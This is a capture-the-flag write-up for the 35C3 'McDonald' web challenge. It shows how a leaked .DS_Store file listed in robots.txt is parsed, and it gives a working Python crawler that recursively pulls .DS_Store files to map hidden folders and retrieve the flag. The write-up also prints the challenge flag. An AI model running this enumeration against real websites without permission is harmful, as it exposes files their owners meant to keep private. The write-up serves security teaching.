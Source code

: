 # McDonald
Web

## Description:
> Our web admin name's "Mc Donald" and he likes apples and always forgets to throw away his apple cores..

## Solution:

The website seems pretty empty, nothing much there.

Let's check for `robots.txt`:
```console
root@kali:/media/sf_CTFs/35c3ctf/McDonald# curl -s http://35.207.132.47:85/robots.txt
User-agent: *
Disallow: /backup/.DS_Store
```

What is this file (Source: [Wikipedia](https://en.wikipedia.org/wiki/.DS_Store))?
> In the Apple macOS operating system, .DS_Store is a file that stores custom attributes of its containing folder, such as the position of icons or the choice of a background image. The name is an abbreviation of Desktop Services Store, reflecting its purpose. It is created and maintained by the Finder application in every folder, and has functions similar to the file desktop.ini in Microsoft Windows. Starting with a full stop (period) character, it is hidden in Finder and many Unix utilities. Its internal structure is proprietary.

The format is proprietary but luckily someone published a [script](https://github.com/gehaxelt/Python-dsstore) to parse the file (and not just anyone - the challenge author!).

Here's the output for our file:
```
root@kali:/media/sf_CTFs/35c3ctf/McDonald/manual# python ~/utils/Python-dsstore/main.py .DS_Store
('Count: ', 20)
a
a
a
a
b
b
b
b
b
b
b
b
c
c
c
c
c
c
c
c
```

It looks like these are also folders, and that some of them contain a `.DS_Store` file as well.

Using this script, we can traverse the directory structure:
```python
import requests
import sys
import dsstore

BASE_URL = "http://35.207.91.38/"
BASE_FOLDER = "out"
DS_FILENAME = ".DS_Store"

def get_file_content(relative_address):
    r = requests.get(BASE_URL + relative_address)
    if r.status_code == 200:
        return r.content
    return None

def get_files_and_folders(ds_store_content):
    d = dsstore.DS_Store(ds_store_content, debug=False)
    files = d.traverse_root()
    return set(files)

queue = ["backup"]

while (len(queue) != 0):
    item = queue.pop()
    print "Parsing: {}".format(item)
    f = get_file_content(item + "/" + DS_FILENAME)
    if f is not None:
        files = get_files_and_folders(f)
        print files
        for file in files:
            new_path = item + "/" + file
            if "." not in file:
                queue.append(new_path)
            else:
                print "Content of {}:".format(new_path)
                print get_file_content(new_path)
```

The output:
```
root@kali:/media/sf_CTFs/35c3ctf/McDonald# python solve.py
Parsing: backup
set([u'a', u'c', u'b'])
Parsing: backup/b
set([u'a', u'c', u'b', u'noflag.txt'])
Content of backup/b/noflag.txt:

Parsing: backup/b/b
set([u'fun'])
Parsing: backup/b/b/fun
Parsing: backup/b/c
Parsing: backup/b/a
set([u'a', u'c', u'b', u'noflag.txt'])
Content of backup/b/a/noflag.txt:

Parsing: backup/b/a/b
set([u'fun'])
Parsing: backup/b/a/b/fun
Parsing: backup/b/a/c
set([u'flag.txt', u'noflag.txt'])
Content of backup/b/a/c/flag.txt:
35c3_Appl3s_H1dden_F1l3s

Content of backup/b/a/c/noflag.txt:

Parsing: backup/b/a/a
Parsing: backup/c
set([u'a', u'c', u'b'])
Parsing: backup/c/b
set([u'a', u'c', u'b'])
Parsing: backup/c/b/b
Parsing: backup/c/b/c
Parsing: backup/c/b/a
Parsing: backup/c/c
set([u'a', u'c', u'b'])
Parsing: backup/c/c/b
Parsing: backup/c/c/c
Parsing: backup/c/c/a
Parsing: backup/c/a
Parsing: backup/a
```

The flag is hiding in `backup/b/a/c/flag.txt`: 35c3_Appl3s_H1dden_F1l3s